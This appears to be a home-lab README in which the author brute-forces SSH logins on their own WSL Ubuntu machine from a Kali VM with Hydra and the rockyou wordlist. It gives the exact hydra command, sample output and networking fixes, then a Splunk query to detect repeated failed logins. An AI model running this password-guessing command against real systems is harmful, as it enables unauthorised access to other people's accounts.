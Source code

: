 # 🔐 Brute-Force Login Attack – Real Lab (Kali Hydra)

## 📌 What is Brute-Force Login?

Brute-force login attacks occur when an attacker tries to guess a user’s password by systematically trying many combinations. This is often the first step in gaining unauthorized access.

---

## 🛠️ Lab Setup

| Role      | System           | IP Address         |
|-----------|------------------|--------------------|
| Attacker  | Kali Linux (VM)  | 192.168.15.130     |
| Target    | WSL Ubuntu (Host) | 172.21.48.121      |

- Kali is running in **VMware**
- WSL Ubuntu is the **target**, with OpenSSH enabled

---

## 🔧 Command Used

```bash
hydra -l sanidhyamalhotra -P /usr/share/wordlists/rockyou.txt ssh://172.21.48.121 -t 4
```

### Explanation:
- `-l` → login/username
- `-P` → path to password list
- `ssh://` → target protocol and IP
- `-t 4` → use 4 parallel tasks

---

## 📄 Sample Output

```plaintext
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Hydra starting at 2025-05-27 02:13:35
[DATA] attacking ssh://172.21.48.121:22/
[STATUS] 72.00 tries/min, 72 tries in 00:01h...
[STATUS] 456 tries in 00:07h, 14343943 left...
```

---

## ⚠️ Challenges Faced

### 🔹 Issue: Network Not Reachable
Hydra showed:
```
[ERROR] could not connect to ssh://<ip> - Network is unreachable
```

### 🔹 Fix:
- Ensure SSH server is running (`sudo service ssh start`)
- Use **NAT** networking in VMware if Bridged doesn't work
- Make sure target IP (e.g., WSL IP) is reachable from Kali
- Firewall must allow port `22`

✅ In my case, **switching Kali to NAT mode fixed the problem**

---

## 🧠 Detection Strategy (in logs or Splunk)

Repeated login failures like:

```log
[2025-05-27 02:00:00] Failed login for user: admin from 192.168.15.130
```

### SPL Detection Query:
```spl
index=auth_logs "Failed login"
| stats count by src_ip, user
| where count > 5
```

---

## 📁 Collected Artifacts

| File | Description |
|------|-------------|
| `brute_force_log.log` | Output from Hydra scan |
| `hydra_scan.png`      | Screenshot of Hydra running |